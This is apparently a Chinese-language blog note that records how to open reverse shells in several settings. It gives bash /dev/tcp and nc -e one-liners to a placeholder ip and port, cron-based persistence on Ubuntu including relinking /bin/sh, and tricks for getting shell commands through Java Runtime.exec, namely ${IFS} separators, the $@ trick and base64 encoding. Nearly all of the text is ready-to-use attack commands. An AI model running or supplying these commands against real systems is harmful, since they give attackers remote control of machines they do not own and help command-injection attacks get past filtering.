


最近在多种环境下进行反弹shell，在不同的环境下，它有着不同的限制，需要进行相应的变化。本文主要是记录这些问题，以便后续查看。
反弹shell常用命令
- bash -i >& /dev/tcp/ip/port 0>&1
- nc -e /bin/bash ip port
不同场景
Ubuntu crontab反弹shell
原因
Linux下的cron中command执行的shell环境是/bin/sh。/bin/sh是一个软连接，而它指向的环境是dash。

虽然Centos下cron执行的shell环境也是/bin/sh。但其指向了bash。因此可以直接成功。

解决方案
- 修改ubuntu中的/bin/sh的指向。
ln -s -f bash /bin/sh - 避免直接在cron文件中使用bash这个shell，另建一个文件。
#!/bin/bash /bin/bash -i >& /dev/tcp/ip/port 0>&1-> /tmp/test.shchmod +x /tmp/test.sh* * * * * /tmp/test.sh
- 在sh的环境下执行bash -c
*/1 * * * * bash -c "bash -i >&/dev/tcp/ip/port 0>&1"
Java上下文反弹shell
Java下命令执行的方式有:
- ProcessBuilder
- Runtime
- ProcessImpl
其中Runtime.getRuntime().exex()的底层实际上也是ProcessBuilder。
Java在命令执行时，带有|,<,>等符号的命令没办法正常执行。
原因
当传入的command是字符串时，会经过StringTokenizer的分割即以空格进行分割，在这里分割的结果会使得命令变得非预期。分割结束后，Java的JDK沙盒机制会对分割后的第一个字符串进行checkExec，以确定是以什么命令环境启动，然后仅能执行单条命令，拼接不了相关参数。
当传入的command是字符串数组时，不会经过分割，完整地保存了想要的语义。
解决办法
- 传入的字符串数组的命令。
- linux下可以用bash的base64编码来解决特殊字符的问题。java.lang.Runtime.exec() Payload Workarounds
- linux下使用${IFS}绕过分隔符。
/bin/bash -c bash${IFS}-i${IFS}>&/dev/tcp/ip/port<&1。 - 利用$@。
/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/ip/port 0>&1。